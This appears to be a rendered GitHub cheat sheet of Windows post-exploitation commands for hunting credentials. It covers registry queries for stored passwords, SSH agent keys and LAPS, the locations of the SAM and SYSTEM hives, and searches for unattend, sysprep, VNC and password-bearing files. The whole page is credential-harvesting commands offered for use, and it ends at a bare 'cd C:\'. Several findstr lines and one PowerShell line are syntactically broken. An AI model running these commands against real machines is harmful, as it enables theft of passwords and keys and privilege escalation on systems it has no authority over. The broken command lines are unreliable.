 ### Check for passwords in registry
```
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

### Ssh credentials
```
reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```

### Get user that can read laps passwords
```
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
```

### Can SAM and SYSTEM files be accessed?
```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

### Get unattended files
```
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```

### Search for vnc and password files in ini xml or txt format
```
dir c:\*vnc.ini /s /b /c
dir c:\*ultravnc.ini /s /b /c
dir c:\ /s /b /c | findstr /si *vnc.ini
```

### Search for password file in ini, txt or ini format
```
findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
findstr /si ConvertTo-SecureString *.txt | *.xml | *.ini
```

### Big search for possible credentials
```
cd C:\
```
